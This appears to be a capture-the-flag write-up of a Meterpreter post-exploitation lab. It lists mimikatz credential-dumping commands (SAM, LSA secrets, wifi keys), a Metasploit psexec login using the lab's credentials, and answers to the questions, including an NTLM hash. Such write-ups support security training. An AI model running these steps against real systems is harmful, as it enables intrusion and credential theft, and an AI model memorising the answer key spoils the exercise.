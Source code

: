 ```
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
```
The questions below will help you have a better understanding of how Meterpreter can be used in post-exploitation.

You can use the credentials below to simulate an initial compromise over SMB (Server Message Block) (using exploit/windows/smb/psexec)

Username: ballen

Password: Password1

Answer the questions below
## Exploitation

![image](https://github.com/user-attachments/assets/a71f5fd1-5843-4e85-8d2d-ed2ccd4f966f)

```
use exploit/windows/smb/psexec
set RHOST
set LHOST
set SMBUser ballen
set SMBPass Password1
run
```
![image](https://github.com/user-attachments/assets/0a3a3129-de8b-4a4a-91c4-1b1de838ad71)

### What is the computer name?
```
ACME-TEST
```
### What is the target domain?
```
FLASH
```
### What is the name of the share likely created by the user?

```
speedster
```
### What is the NTLM hash of the jchambers user?

```
69596c7aa1e8daee17f8e78870e25a5c
```
![image](https://github.com/user-attachments/assets/8cc656f2-7398-4b08-b447-37bd72c2c8a1)
